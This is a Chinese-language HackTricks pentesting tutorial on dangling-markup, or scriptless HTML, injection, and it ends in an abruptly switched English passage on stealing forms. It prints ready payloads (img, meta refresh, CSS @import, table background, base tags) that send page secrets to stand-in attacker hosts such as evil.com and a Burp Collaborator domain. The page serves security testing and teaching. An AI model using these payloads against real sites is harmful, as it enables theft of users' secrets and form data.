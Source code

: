 # 悬挂标记 - HTML无脚本注入

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks云 ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

## 简介

当发现**HTML注入**时，可以使用此技术从用户那里提取信息。如果你**找不到任何方法来利用**[**XSS**](xss-cross-site-scripting/)，但你可以**注入一些HTML标签**，这将非常有用。\
如果某些**秘密以明文保存**在HTML中，并且你想要从客户端**窃取**它，或者你想要误导某些脚本执行，这也是很有用的。

这里提到的几种技术可以通过意想不到的方式（html标签、CSS、http-meta标签、表单、base等）绕过一些[**内容安全策略**](content-security-policy-csp-bypass/)，以泄露信息。

## 主要应用

### 窃取明文秘密

如果你注入`<img src='http://evil.com/log.cgi?`，当页面加载时，受害者将向你发送从注入的`img`标签到代码中下一个引号之间的所有代码。如果某个秘密恰好位于该代码块中，你将窃取它（你也可以使用双引号进行相同的操作，看看哪个更有趣）。

如果`img`标签被禁止（例如由于CSP），你还可以使用`<meta http-equiv="refresh" content="4; URL='http://evil.com/log.cgi?`。
```
<img src='http://attacker.com/log.php?HTML=
<meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text=
<meta http-equiv="refresh" content='0;URL=ftp://evil.com?a=
```
请注意，**Chrome会阻止包含"<"或"\n"的HTTP URL**，所以您可以尝试其他协议方案，如"ftp"。

您还可以滥用CSS的`@import`（它会发送直到找到";"为止的所有代码）
```markup
<style>@import//hackvertor.co.uk?     <--- Injected
<b>steal me!</b>;
```
您还可以使用**`<table`**：
```bash
<table background='//your-collaborator-id.burpcollaborator.net?'
```
您还可以插入一个`<base`标签。所有的信息都将被发送，直到引号关闭，但这需要一些用户交互（用户必须点击某个链接，因为基准标签已经改变了链接指向的域名）：
```markup
<base target='        <--- Injected
steal me'<b>test</b>
```
### 盗取表单

One interesting technique to steal user data is by exploiting dangling markup or HTML scriptless injection. This technique allows an attacker to inject malicious code into a website's HTML code without using any script tags.

The idea behind this technique is to find a vulnerable website that allows user-generated content to be displayed without proper sanitization. The attacker can then inject their own HTML code, including a form that looks identical to the original website's form.
